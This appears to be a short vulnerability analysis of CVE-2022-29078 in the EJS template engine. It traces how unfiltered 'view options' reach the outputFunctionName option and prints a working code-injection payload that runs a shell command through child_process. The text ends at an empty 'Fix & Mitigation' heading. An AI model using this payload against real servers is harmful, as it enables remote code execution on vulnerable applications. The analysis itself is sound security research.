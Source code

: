 CVE-2022-29078

# The analysis

The render function

```javascript
exports.render = function (template, d, o) {
  var data = d || {};
  var opts = o || {};

  // No options object -- if there are optiony names
  // in the data, copy them to options
  if (arguments.length == 2) {
    utils.shallowCopyFromList(opts, data, _OPTS_PASSABLE_WITH_DATA);
  }

  return handleCache(opts, template)(data);
};
```

[libs/ejs.js:413](https://github.com/mde/ejs/blob/80bf3d7dcc20dffa38686a58b4e0ba70d5cac8a1/lib/ejs.js#L413-L424)

It only copies the data if it’s in the passed list defined

```javascript
var _OPTS_PASSABLE_WITH_DATA = ['delimiter', 'scope', 'context', 'debug', 'compileDebug',
  'client', '_with', 'rmWhitespace', 'strict', 'filename', 'async'];
```

Take a look at ``renderFile`` function

```javascript
// Undocumented after Express 2, but still usable, esp. for
// items that are unsafe to be passed along with data, like `root`
viewOpts = data.settings['view options'];
if (viewOpts) {
    utils.shallowCopy(opts, viewOpts);
}
```

[libs/ejs.js:471](https://github.com/mde/ejs/blob/80bf3d7dcc20dffa38686a58b4e0ba70d5cac8a1/lib/ejs.js#L471-L476)

``view options`` ejs will copy everything into the options without restrictions

```javascript
prepended +=
    '  var __output = "";\n' +
    '  function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
if (opts.outputFunctionName) {
    prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
```

If we injected code in the ``outputFunctionName`` option it will included in the source code

payload: ``x;process.mainModule.require('child_process').execSync('touch /tmp/pwned');s``

It will be like this 
``var x;process.mainModule.require('child_process').execSync('touch /tmp/pwned');s= __append;``

# Fix & Mitigation

